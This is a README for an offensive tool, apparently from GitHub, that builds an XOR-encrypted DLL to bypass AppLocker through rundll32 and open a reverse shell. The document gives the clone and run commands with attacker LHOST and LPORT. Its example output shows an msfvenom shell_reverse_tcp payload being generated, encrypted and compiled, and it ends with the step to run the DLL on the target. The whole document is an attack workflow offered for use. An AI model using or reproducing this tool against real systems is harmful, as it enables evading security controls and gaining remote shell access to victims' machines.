

# NeverEnderDll
Layered encrypted rundll32 applocker bypass tool for reverse shell

## 1. Install
```sh
git clone https://github.com/ZumiYumi/NeverEnderDll
```
## 2. Run Loader and Compile
```sh
python neverenderdll.py --lhost 10.10.15.170 --lport 4444 --compile

# EXAMPLE OUTPUT
# [*] Generating shellcode: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.170 LPORT=4444 -f raw -o /tmp/tmp5uz5n6sv.bin
# [+] Shellcode size: 460 bytes
# [*] XOR key: eef6c9a892ee1ab87b3ce481d166175343e8903cb6333fb93fa16a8b68dac58a
# [+] Encrypted shellcode saved to encrypted_sc.bin
# [+] Wrapper source written to wrapper.cpp
# [*] Compiling: x86_64-w64-mingw32-g++ -shared -O2 -o neverender.dll wrapper.cpp -s -static
# [+] Compiled DLL: neverender.dll

# [+] DLL ready. Run on target: rundll32 neverender.dll,Start
```
Transfer to target and run.

## Demo


